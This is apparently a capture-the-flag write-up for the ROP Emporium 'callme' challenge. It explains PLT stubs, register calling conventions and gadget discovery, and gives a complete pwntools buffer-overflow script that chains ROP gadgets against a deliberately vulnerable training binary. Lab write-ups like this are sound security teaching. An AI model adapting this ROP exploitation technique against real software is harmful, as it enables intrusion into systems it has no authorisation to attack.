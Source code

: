 # ROP Emporium | Callme

## Challenge Objective

You must call the `callme_one()`, `callme_two()` and `callme_three()` functions in that order. Each with the arguments:

* `0xdeadbeef`, `0xcafebabe`, `0xd00df00d`

For the x86\_64 binary, double up those values:

* `callme_one(0xdeadbeefdeadbeef, 0xcafebabecafebabe, 0xd00df00dd00df00d)`

---

## Exploit Approach

If you've read the previous challenges, `ret2win` and `split`, it's pretty standard by now that we overflow the buffer through `pwnme()` and enter another function. So I will skip that part in this writeup and jump to the function we are interested in AFTER `pwnme()`'s `ret` overwrite.

### The usefulFunction():

![usefulFun](Screenshots/usefulfunc(1).png)

Here the function calls 3 different functions in the order `_three`, `_two`, `_one`. Our goal is to call them in the opposite order. There's two problems with that:

1. If we use the address for `call callme_one()` inside `usefulFunc`, it doesn't have a `ret`, so it can't be used as a gadget.
2. Even if it did have a `ret`, calling `callme_two` would go through `_one` and ruin the order.

Hence we need to call them directly. We know that they are imported functions from this functions list:

![usefulFun](Screenshots/imports.png)

These functions aren’t called directly in `usefulFunction()`, but their PLT entries allow us to invoke them just like dynamically-linked functions. When the `call callme_one` instruction in `usefulFunction()` is executed, it jumps to the PLT stub. On the first call, the PLT resolves the actual address of `callme_one` using the dynamic linker and updates the Global Offset Table (GOT). After that, the PLT just jumps directly via the GOT entry to the real function.

### plt stub of a callme\_one :

![usefulFun](Screenshots/callone@plt.png)

For the purposes of this challenge, all you need to know is that the start of this address will find the addr of the actual `callme_one` from lib and execute it. The whole process of how this external address is found and resolved from plt is much better explained by other people. I will link them below.

### Function Addresses from .plt:

```python
call_one = p64(0x00400720) #callme_one@plt
call_two = p64(0x00400740) #callme_two@plt
call_three = p64(0x004006f0) #callme_three@plt
```

## Argument Setup

Now let's take a look at `usefulFunc` again.

We see that before the function call there's:

```asm
0x004008f6      mov     edx, 6
0x004008fb      mov     esi, 5
0x00400900      mov     edi, 4
0x00400905      call    callme_three
```

`edx`, `esi` and `edi` actually hold the arguments for the subsequent function. The convention is as follows:

| Arg | Register |
| --- | -------- |
| 1st | rdi      |
| 2nd | rsi      |
| 3rd | rdx      |
| 4th | rcx      |
| 5+  | r8, r9   |

Hence we need to find gadgets that pop `rdi`, `rsi` and `rdx`.

A simple `ROPgadget --binary callme --depth 12` gives us the required gadgets.

![usefulFun](Screenshots/gadgets.png)

Now unfortunately it's not perfectly pop rsi ; ret, pop rdi; ret, pop rdx; ret.

But we can still use these as our required registers are present.

### Gadgets:

```
0x00000000004009a3 : pop rdi ; ret          # gadget_1
0x000000000040093d : pop rsi ; pop rdx ; ret # gadget_2
```

If it's `pop rsi ; pop rdx ; ret`, we simply add the parameters one after another.

### Our parameters:

```python
p1 = p64(0xdeadbeefdeadbeef)
p2 = p64(0xcafebabecafebabe)
p3 = p64(0xd00df00dd00df00d)
```

### Argument payload:

```
gadget_1 -> p1 -> gadget_2 -> p2 -> p3
```

Which can be our `set_param` variable.

---

## Final Exploit Payload

```python
from pwn import *

junk = b'A' * 40

p1 = p64(0xdeadbeefdeadbeef)
p2 = p64(0xcafebabecafebabe)
p3 = p64(0xd00df00dd00df00d)

g1 = p64(0x00000000004009a3) # pop rdi ; ret
g2 = p64(0x000000000040093d) # pop rsi ; pop rdx ; ret

call_one = p64(0x00400720) #callme_one@plt
call_two = p64(0x00400740) #callme_two@plt
call_three = p64(0x004006f0) #callme_three@plt

set_param = g1 + p1 + g2 + p2 + p3

payload = junk + set_param + call_one + set_param + call_two + set_param + call_three

p = process('./callme')
p.recvuntil('>')
p.sendline(payload)
p.interactive()
```

---

## Flag

And our flag is returned

![usefulFun](Screenshots/final.png)

## Links for PLT/GOT

- [LiveOverflow](https://youtu.be/kUk5pw4w0h4)
- [RazviOverflow](https://www.youtube.com/watch?v=B4-wVdQo040) : He links more resources for further learning.

